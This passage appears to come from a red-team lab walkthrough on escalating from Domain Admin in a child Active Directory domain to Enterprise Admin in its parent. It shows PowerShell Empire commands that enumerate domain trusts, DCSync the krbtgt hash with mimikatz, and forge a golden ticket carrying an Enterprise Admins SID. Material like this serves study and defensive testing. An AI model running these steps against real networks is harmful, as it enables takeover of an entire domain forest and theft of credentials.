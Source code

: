 ### Checking Trust Relationships

Once in DC-RED, let's check any domain trust relationships:

```csharp
usemodule situational_awareness/network/powerview/get_domain_trust
```

![](../../.gitbook/assets/empire-trusts.png)

We see that the `red.offense.local` is a child domain of `offense.local` domain, which is automatically trusting and trusted (two way trust/bidirectional) with `offense.local` - read on.

### From DA to EA

We will now try to escalate from DA in `red.offense.local` to EA in `offense.local`. We need to create a golden ticket for `red.offense.local` and forge it to make us an EA in `offense.local`.

First of, getting a SID of a `krbtgt` user account in `offense.local`:

```csharp
(Empire: powershell/situational_awareness/network/powerview/get_domain_trust) > usemodule powershell/management/user_to_sid
(Empire: powershell/management/user_to_sid) > set Domain offense.local
(Empire: powershell/management/user_to_sid) > set User krbtgt
(Empire: powershell/management/user_to_sid) > run
```

![](../../.gitbook/assets/empire-krbtgt-sid.png)

After getting a SID of the `offense.local\krbtgt`, we need to get a password hash of the `krbtgt` account in the compromised DC `DC-RED` (we can extract it since we are a domain admin in `red.offense.local`):

```csharp
(Empire: powershell/management/user_to_sid) > usemodule powershell/credentials/mimikatz/dcsync
(Empire: powershell/credentials/mimikatz/dcsync) > set user red\krbtgt
(Empire: powershell/credentials/mimikatz/dcsync) > execute
```

![](../../.gitbook/assets/empire-krbtgt-hash.png)

### Golden Ticket for Root Domain

We can now generate a golden ticket for `offense.local\Domain Admins`since we have the SID of the `offense.local\krbtgt` and the hash of `red.offense.local\krbtgt`:

```csharp
usemodule powershell/credentials/mimikatz/golden_ticket
(Empire: powershell/credentials/mimikatz/golden_ticket) > set user hakhak
(Empire: powershell/credentials/mimikatz/golden_ticket) > set sids S-1-5-21-4172452648-1021989953-2368502130-519
(Empire: powershell/credentials/mimikatz/golden_ticket) > set CredID 8
(Empire: powershell/credentials/mimikatz/golden_ticket) > run
```
